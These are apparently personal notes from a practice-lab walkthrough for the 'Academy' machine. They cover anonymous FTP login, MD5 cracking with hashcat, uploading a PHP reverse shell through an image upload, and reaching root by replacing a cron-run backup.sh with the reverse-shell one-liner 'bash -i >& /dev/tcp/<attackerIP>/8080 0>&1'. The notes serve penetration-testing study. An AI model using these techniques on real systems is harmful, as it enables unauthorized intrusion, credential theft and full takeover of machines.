

 Walkthrough Username:root  
passwd:tcm  
  
  
  
apache server probably means php in backend  
  
  
  
  
  
anonymous login to ftp:  
username:anonymous(random try)  
passwd:anonymous  
  
login was successful  
  
  
nmap revealed that there was a file note.txt  
  
  
  
  
copy the password hash  
#hash-identifier  
tool built in kali linux  
paste the hash  
  
  
  
  
  
possible md5 hash  
  
tool for passwd cracking:hashcat  
\*hascracking uses GPU not CPU so try to run on main OS and not VM  
  
#hashcat –m 0 hashes.txt /usr/share/wordlists/rockyou.txt  
  
  
  
  
  
password is student,we also have the username and userID from note.txt we got from ftp  
  
#dirb http://192.168.57.8  
for directory busting:no need for worlists  
  
another tool:ffuf for directory busting  
  
  
\-w:wordlists  
\-u:url  
replace Fuzz in url with wordlists words  
  
  
  
  
go to http://192.168.57.8/academy  
put the credentials  
  
right click on img->open image in new tab:to see where image is stored  
  
  
instead of img,try to upload a malware,if typeof file check is not done  
  
google php reverse shell:go to pentestmonkey  
copy .php file raw and paste it in file->paste in shell.php  
change ip in the php file to attacker machine ip  
  
#nc -nlvp 1234  
port should be same as that in shell.php  
  
now upload the shell file i.e shell.php  
and we get a reverse shell  
  
  
  
we are not root  
  
  
  
so we need to perform privilage escalation  
  
tool for privilage escalation on linux:linpeas(github:https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)  
  
#cd transfer(folder containing linpeas.sh)  
#python3 -m http.server 80  
host that folder on a server so that we can download it on victim using wget  
  
in academy reverse shell we got  
#cd tmp  
#pwd  
#wget http://<serverIP>/linpeas.sh  
  
  
Wget is the non-interactive network downloader which is used to download files from the server even  
when the user has not logged on to the system and it can work in the background without hindering the current process.   
  
  
  
  
  
  
  
/var/www/html/academy/includes/config.php  
#cat /var/www/html/academy/includes/config.php  
  
  
  
  
  
  
  
/etc/passwd:shows grimmie is administator  
  
#ssh grimmie@192.168.57.8  
  
  
  
now we are in the machine as grimmie:  
  
  
looks like backup.sh runs periodically  
  
tool:pspy  
  
  
#chmod +x pspy  
this shows all process running on the machine and we can see them even without sudo privilages  
  
try to find backup.sh because it looked like backup.sh was running periodically  
  
  
  
  
backup.sh running every minute  
  
google:bash reverse shell one liner:https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
  
#bash -i >& /dev/tcp/<attackerIP>/8080 0>&1  
  
we have a shell script:backup.sh  
we put this one liner in the shell script and it will perform reverse shell  
  
in grimmie:  
#nano backup.sh  
delete existing code and replace with reverse shell one liner  
  
  
in kali:  
#nc -nvlp 8080  
wait for some time coz script runs every minute  
  
and we get a reverse shell as root this time  
  
  
  
